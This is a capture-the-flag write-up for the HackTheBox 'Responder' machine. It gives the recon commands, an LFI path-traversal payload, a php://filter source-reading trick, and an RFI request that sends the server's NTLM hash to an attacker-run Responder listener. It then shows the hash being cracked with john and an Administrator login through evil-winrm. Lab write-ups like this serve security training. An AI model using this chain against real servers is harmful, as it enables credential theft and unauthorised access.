## Responder HackTheBox
#### About Box
Responder is a box that will help you to take the first step towards Windows server exploitation. I like the room because it tought me some new stuffs that I've never new existed.

**`skill needed`**
- Nmap
- Gobuster/ FFUF
- responder
- evil-winrm
- LFI
- RFI
---
#### Step One: Recon
First thing is : `nmap`
```bash
nmap -A -sV --privileged -T4 10.129.121.226  -p- -O -sC -v
```
**`Result`**
|PORT|STATE|SERVICE|VERSION|
|----|----|----|----|
|80/tcp|open|http|Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)|
|5985/tcp|open|http|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)|

Result Description: **`Port 80`**
```terminal
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Unika
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
```

Result Description: **`Port 5985`**
```terminal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

Then we visit the site and with `wappalyzer` we can see bunch of stuffs about our site. The key features are:
- Running on PHP `8.1.1`
- Running on a Windows OS
- Has Apache server

now since we know what our web site title should be, we will `Fuzz` it for any interesting file/ directory.
```bash
ffuf -u http://unika.htb/FUZZ -w ~/custom-wl/OneListForAll/onelistforallmicro.txt -v -r -c -fc 404,403 -fs 46453
```
I got one:
- http://unika.htb/cgi-bin/printenv.pl
this is kinda weird and reviels internal file structures. This will help us.

Burp automatically discoverd a parameter called **`page=`**. let's take a look at it.

#### Step Two: Exploiting
We discoverd that our found parameter **`page`** loads file from the server. this might help us to get `LFI`. But this is a windows server so we have to use payload that follows windows filesystem.

in this case I've used: `../../../../../../../../windows/system32/drivers/etc/hosts`

and yes we get a `LFI`

**`Result`**
```terminal
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
-------<snip>------
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```
We can also use **`PHP protocol`** to read internal PHP files as they can not be read from server side.

I've used this one to read the index.php:
```bash
php://filter/convert.base64-encode/resource=index.php
```
After decoding I got:
```php
<?php 
$domain = "unika.htb";
if($_SERVER['SERVER_NAME'] != $domain) {
  echo '<meta http-equiv="refresh" content="0;url=http://unika.htb/">';
  die();
}
if(!isset($_GET['page'])) {
  include("./english.html");
}
else {
  include($_GET['page']);
}       
```
>> More cool tricks are [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter)

Now we have to get into the server. HTB suggest that we can do it using a tool called `responder`. This will help us to capture the `Administartor Hash` via `RFI`.

To do so, all we have to do is to run `responder` with sudo and listen to `tun0` protocol as we are connected to the machine via VPN.

`sudo responder -I tun0`

after starting it we have to perform the **RFI**. It's not necessary to have a vaild file, all we need is the server to send us a request including the hash. so we will do it like:
```URI
http://unika.htb/index.php?page=//10.10.14.30/hehe.php
```
then we will see our responder got the admin hash which we will decrypt using `john`:

`john --wordlist=rockyou.txt hash.txt`

As we have the password for admin, we will try to get in now.

Remember we have port **5985** open? we will use this one to access. Upon searching, I've come to know that I can access it using `evil-winrm` tool

All you have to do:
`evil-winrm -u Administrator -p 'badminton' -i 10.129.122.152`

And the rest is upto you. 
>>>> Peace


